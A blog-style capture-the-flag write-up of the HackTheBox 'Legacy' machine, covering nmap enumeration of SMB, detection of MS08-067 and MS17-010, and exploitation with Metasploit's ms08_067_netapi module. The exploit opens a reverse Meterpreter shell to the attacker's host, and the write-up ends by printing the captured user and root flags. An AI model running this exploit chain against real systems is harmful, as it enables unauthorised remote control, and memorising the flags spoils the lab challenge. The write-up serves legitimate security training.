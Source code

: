 ```yaml
---
title: HackTheBox - Legacy
date: 2020-08-20 19:01:00 +/- 0000
categories: [HackTheBox,Easy]
tags: [legacy]
image: /assets/img/Icons/legacy.png
---
```



*As the oldest machine on HackTheBox, i thought Legacy would be the perfect machine to start with. It was a  nice and easy first box - requiring simple enumeration following a simple SMB vulnerabilitie exploit to gain root access.*

***Machine IP = 10.10.10.4***

---

## RECON AND INFORMATION GATHERING
### Nmap


<pre>
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-19 12:04 BST
Nmap scan report for 10.10.10.4
Host is up (0.055s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h31m22s, deviation: 2h07m16s, median: 4d23h01m22s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:47:5e (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-07-24T16:05:41+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.16 seconds
</pre>

An old machine, running Windows XP 2000. SMB is discovered on port 139. Time to delve deeper. Scan for SMB vulnerabilities on port 139.

<pre>
root@kali:~# nmap --script smb-vuln* -p 139 10.10.10.4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-19 12:23 BST
Nmap scan report for 10.10.10.4
Host is up (0.052s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
</pre>

Two CVE's returned:
- CVE-2008-4250 - smb-vuln-ms08-067
- CVE-2017-0143 - smb-vuln-ms17-010

Now onto Metasploit to gain access to machine.

---

## Exploiting
### Metasploit

<pre>

msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf5 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (180291 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.13:4444 -> 10.10.10.4:1031) at 2020-07-19 12:31:48 +0100

meterpreter > 
meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
</pre>

It seems we have access to the machine! Time to find some flags.

<pre>
C:\Documents and Settings\john\Desktop>type user.txt
e69af0e4f443de7e36876fda4ec7644f

C:\Documents and Settings\Administrator\Desktop>type root.txt	
993442d258b0e0ec917cae9e695d5713
</pre>

First machine completed! Although there is another option to exloit via ms17-010, the results would be the same. Was a nice easy machine to say the least. Onto the next!